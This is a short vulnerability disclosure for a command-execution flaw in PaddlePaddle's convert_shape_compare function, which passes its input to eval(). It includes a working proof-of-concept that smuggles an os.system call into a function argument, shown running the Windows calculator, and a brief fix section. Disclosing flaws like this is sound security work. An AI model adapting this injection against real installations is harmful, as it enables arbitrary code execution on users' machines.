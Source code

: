 
Vulnerability Product: Baidu.Inc PaddlePaddle's paddle  
Vulnerability version: <= 2.5.2  
Vulnerability type: Command Execution  
Vulnerability vender: Baidu.Inc  
Vulnerability Details:  discovered by leeya_bug
Vulnerability location: paddle/jit/dy2static/convert_operators.py  

Baidu.Inc PaddlePaddle's Official lib paddle exists Command Execute Vulnerability, Easy to cause User's devices to be hijacked by attackers.

## [](#header-3)PROVE: 

0、Prepare a computer which could run python and windows10

1、Download Paddle latest version(or <= v2.5.2)  
```
pip3 install paddlepaddle==2.5.2
```

2、Run Python3, Run belowing code in python  
```py
import paddle
paddle.jit.dy2static.convert_operators.convert_shape_compare('prefix','+ str(__import__("os").system("calc")) +','1')
```

3、You can find it successfully run calculator  
![图片](https://raw.githubusercontent.com/Leeyangee/leeya_bug/main/AboutThis1.png)  
proved Command Execution  

POC:  
```py
import paddle
paddle.jit.dy2static.convert_operators.convert_shape_compare('prefix','+ str(__import__("os").system("calc")) +','1')
```

## [](#header-3)REASON: 

An unfiltered dangerous function (line 681) appeared in API function convert_shape_compare of path paddle/jit/dy2static/convert_operators.py, allowing attackers to carefully construct payloads to bypass the filter and result in user's command execution
![图片](https://raw.githubusercontent.com/Leeyangee/leeya_bug/main/AboutThis2.png)  

## [](#header-3)FIX: 

1、do not use eval()
2、filter more

discovered by leeya_bug
